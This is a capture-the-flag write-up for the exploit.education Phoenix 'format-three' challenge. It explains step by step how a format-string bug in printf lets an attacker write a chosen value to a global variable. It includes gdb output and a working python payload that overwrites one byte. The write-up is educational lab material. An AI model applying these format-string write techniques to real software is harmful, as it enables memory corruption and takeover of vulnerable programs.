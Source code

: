 # FORMAT THREE (pwn, exploit.education, phoenix, format-string, set address with qword value)

Notes:
- source code given

## Enumeration
### Protections
As in every task in phoenix all protections are disabled (aslr as well):

```bash
$ checksec format-three
[*] './format-three'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

and the file we have to exploit is a 64 bit binary:

```bash
$ file format-three
files/format-three: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=a490eeb5423b20f15cc5bf98c5e8c1010a129b6c, with debug_info, not stripped
```

### Goal
The goal is obvious, we have to set `changeme` with `0x64457845`.

### Vulnerabilities
The program is vulnerable to format-string. It first reads user input into `buf`:

```c
if (read(0, buf, sizeof(buf) - 1) <= 0) {
    exit(EXIT_FAILURE);
}
bounce(buf);
```

 and then displays it inside `bounce` function:

 ```c
 void bounce(char *str) {
  printf(str);
}
```

## Exploit
We will want to overwrite the value under `0x64457845`. Printf let's us write to arbitrary location using `%n` type, which will set the value under provided address to number of bytes written so far:

```c
int x;
printf("1234%n", &x); // x will be set to 4
```

Ok, and what if our program looks like:

```c
printf("1234%n"); // what will get overwriten?
```

Well, `printf` doesn't validate the provided arguments. It just assumes they are valid. And how are arguments passed to functions on x86_64? Well, the first 6 are passed in: rdi, rsi, rdx, rcd, r8, r9 registers and the next ones are passed on stack.

So our program will overwrite the address stored under rsi register (as rdi keeps the format argument).


Ok, but how can we make the program to write to address of our choice? In this case the address of `changeme` variable?
Well, we can use `direct access` parameter which specifies the parameter to use for input. So `printf("1234%8$n")` would overwrite the second (8 - 6) value placed on stack with 0x4. And as our `buf` is also placed on the stack, we can make the program to get the address from the `buf`! And remember, we do control everything inside the `buf`.

That's exactly what we want to achieve! Let's try this out to overwrite the lsb of `changme` variable with 0x45.

First we have to find the address of `changme`. This can be done easly as binary was not compiled as PIE:

```c
objdump --syms format-three | grep changeme
000000000060104c g     O .bss	0000000000000004              changeme
```

Now let's check under gdb what is the offset between the `buf` and the `$rsp` register right before calling `printf`. This will be important!

```gdb
$ gdb -q format-three
gef➤  p &buf
$2 = (char (*)[4096]) 0x7fffffffcd40
$ gef➤  x/10i bounce
   0x4005c7 <bounce>:	push   rbp
   0x4005c8 <bounce+1>:	mov    rbp,rsp
   0x4005cb <bounce+4>:	sub    rsp,0x10
   0x4005cf <bounce+8>:	mov    QWORD PTR [rbp-0x8],rdi
   0x4005d3 <bounce+12>:	mov    rax,QWORD PTR [rbp-0x8]
   0x4005d7 <bounce+16>:	mov    rdi,rax
   0x4005da <bounce+19>:	mov    eax,0x0
   0x4005df <bounce+24>:	call   0x4004b0 <printf@plt>
   0x4005e4 <bounce+29>:	nop
   0x4005e5 <bounce+30>:	leave
gef➤ b *0x4005df
gef➤  c
Continuing.
Welcome, brought to you by https://exploit.education
lala
Breakpoint 1, 0x00000000004005df in bounce (str=0x7fffffffcd40 "lala\n") at format3.c:21
21	  printf(str);
gef➤ p $rsp
$2 = (void *) 0x7fffffffcd10
```

So the offset is: 0x7fffffffcd10 - 0x7fffffffcd40 = 48 = 6 * 8

Let's provide `%069x%14$nAAAAAA` + `\x4c\x10\x60\x00\x00\x00\x00\x00` as an input. Note that we had to pad the `format` string with 'A's to align stack address. Moreover we will overwrite the address passed as 13th argument. (14 = 5 + 9)

Our stack to look like this:

![](img/stack0.png)

And the printf is translated to:

```c
printf("%069x%14$nAAAAAA", random address from rsi, 000000000060104c);
```

Meaning that the program will first output some random address from rsi padded to 69 characters and then store value 69 under 000000000060104c.

Let's check if we are correct. Remember to escape '$' sign, as bash thinks it is special character:

```bash
$ python -c "print '%069x%14\$nAAAAAA' + '\x4c\x10\x60\x00\x00\x00\x00\x00'" | ./format-three 
Welcome, brought to you by https://exploit.education
0000000000000000000000000000000000000000000000000000000000000ffffcdc0AAAAAAL`Better luck next time - got 0x00000045, wanted 0x64457845!
```

Ha, well done! We have overwriten a byte of our choice.
3 more bytes to go, but we can do them in the same way we done the first one.

The final stack of our exploit should look like:
![](img/stack1.png)


## References
https://kevinalmansa.github.io/application%20security/Format-Strings/